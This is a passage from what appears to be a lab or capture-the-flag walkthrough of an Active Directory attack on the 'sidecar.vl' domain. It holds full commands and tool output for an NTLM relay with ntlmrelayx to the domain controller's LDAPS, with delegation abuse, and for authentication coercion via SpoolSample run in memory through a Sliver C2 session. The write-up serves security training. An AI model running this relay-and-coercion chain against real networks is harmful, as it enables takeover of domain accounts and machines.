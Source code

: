 ```console
SNMP = Off
MQTT = On
```
Then install impacket with the pull request :

```console
git clone -b interactive-ldap-shadow-creds https://github.com/Tw1sm/impacket.git
python3 -m venv .venv
source .venv/bin/activate
#adjust requirements.txt for pyOpenSSL==23.2.0
python3 setup.py install
```
Start ntlmrelayx :

```bash
python3 ntlmrelayx.py -t ldaps://dc01.sidecar.vl --delegate-access -i
Impacket v0.10.1.dev1+20220912.224808.5fcd5e81 - Copyright 2022 SecureAuth Corporation

[*] Protocol Client SMTP loaded..
[*] Protocol Client MSSQL loaded..
[*] Protocol Client DCSYNC loaded..
[*] Protocol Client LDAPS loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client SMB loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client RPC loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client IMAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server on port 80
[*] Setting up WCF Server
[*] Setting up RAW Server on port 6666

[*] Servers started, waiting for connections
```
Upload SpoolSample.exe on sliver and use him for using coercion from WS01$

```bash
sliver (sidecar-http) > upload SpoolSample.exe

[*] Wrote file to C:\Users\e.klaymore\Desktop\SpoolSample.exe

sliver (sidecar-http) > inline-execute-assembly SpoolSample.exe "10.10.210.70 WIN-DGY7OZWUTMM@80/toto.txt"
```
![alt text](<../assets/image_sidecar/ntlmrelayx WS01.png>)